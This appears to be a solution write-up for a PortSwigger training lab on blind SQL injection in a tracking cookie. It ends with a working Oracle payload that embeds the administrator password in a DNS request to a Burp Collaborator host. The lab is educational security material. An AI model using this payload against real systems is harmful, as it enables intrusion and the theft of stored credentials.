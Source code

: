 # Lab: Blind SQL injection with out-of-band data exfiltration

Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration>  
Difficulty: PRACTITIONER  

## Known information

- vulnerable to blind SQL injection
- parameter: value of tracking cookie
- Result of injection: No visible difference in page, no timing difference
- DB may perform DNS queries
- database contains a `users` table with columns `username` and `password`
- Goal:
  - Exfiltrate the administrator password
  - Login as administrator user

## Query

The query will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In example case, the cookie contains this content
`Cookie: TrackingId=BR3agStQwzeln8Z6; session=cQ7k63wrOmVgTV4P62F5zEYadIbtX9e9`

I will omit the complete cookie content from now on and only provide the string appended to the TrackingId value.

## Steps

The first step is identical to the [previous lab](../Blind_SQL_injection_with_out-of-band_interaction/README.md) so I do not repeat it here.

After confirming this Lab uses an Oracle database as well, I simply insert the password into as subdomain into the DNS query:

`'||(SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.3txa3t7g4os2eh9558lzp3fqbhh75w.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)||'`

The Burp collaborator client then provides me with the administrator password:

![collaborator hit](img/collaborator_result.png)

![success](img/success.png)
